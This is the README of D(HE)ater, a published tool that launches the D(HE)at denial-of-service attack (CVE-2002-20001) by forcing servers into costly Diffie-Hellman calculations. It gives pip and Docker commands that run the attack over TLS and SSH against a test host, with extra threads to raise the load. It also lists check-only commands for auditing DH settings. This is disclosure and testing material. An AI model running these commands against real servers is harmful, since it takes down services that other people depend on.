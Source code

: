 # D(HE)ater

D(HE)ater is an attacking tool based on CPU heating in that it forces the ephemeral variant of
[Diffie-Hellman key exchange](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) (DHE) in given
cryptography protocols (e.g. TLS, SSH). It is performed without calculating a cryptographically correct ephemeral key on
the client-side, but with a significant amount of calculation on the server-side. Based on this,
a [denial-of-service (DoS) attack](https://en.wikipedia.org/wiki/Denial-of-service_attack) can be initiated,
called [D(HE)at attack](https://dheatattack.com)
([CVE-2002-20001](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-20001)).

## Quick start

D(HE)ater can be installed directly via [pip](https://pip.pypa.io/en/stable/) from
[PyPi](https://pypi.org/project/dheater/)

```console
pip install dheater
dheat --protocol tls ecc256.badssl.com
dheat --protocol ssh ecc256.badssl.com
```

or can be used via [Docker](https://www.docker.com/) from
[Docker Hub](https://hub.docker.com/repository/docker/coroner/dheater)

```console
docker pull coroner/dheater
docker run --tty --rm coroner/dheater --protocol tls ecc256.badssl.com
docker run --tty --rm coroner/dheater --protocol ssh ecc256.badssl.com
```

You can increase load by string extra threads.

```console
dheat --thread-num 4 --protocol tls ecc256.badssl.com
docker run --tty --rm coroner/dheater --thread-num 4 --protocol tls ecc256.badssl.com
docker run --tty --rm coroner/dheater --thread-num 4 --protocol ssh ecc256.badssl.com
```

## Check

Without attacking a server or accessing its configuration it is still possible
to determine whether Diffie-Hellman (DH) key exchange is enabled and if so what
DH parameters (prime, generator, key size) are used.  Command line tools such as
[CryptoLyzer](https://gitlab.com/coroner/cryptolyzer) (TLS, SSH KEX/GEX),
[testssl.sh](https://testssl.sh) (TLS only), or
[ssh-audit](https://github.com/jtesta/ssh-audit) (SSH KEX only) can do that work.

### TLS

```
cryptolyze tls1_2 dhparams example.com
cryptolyze tls1_3 dhparams example.com

testssl.sh --fs example.com
```
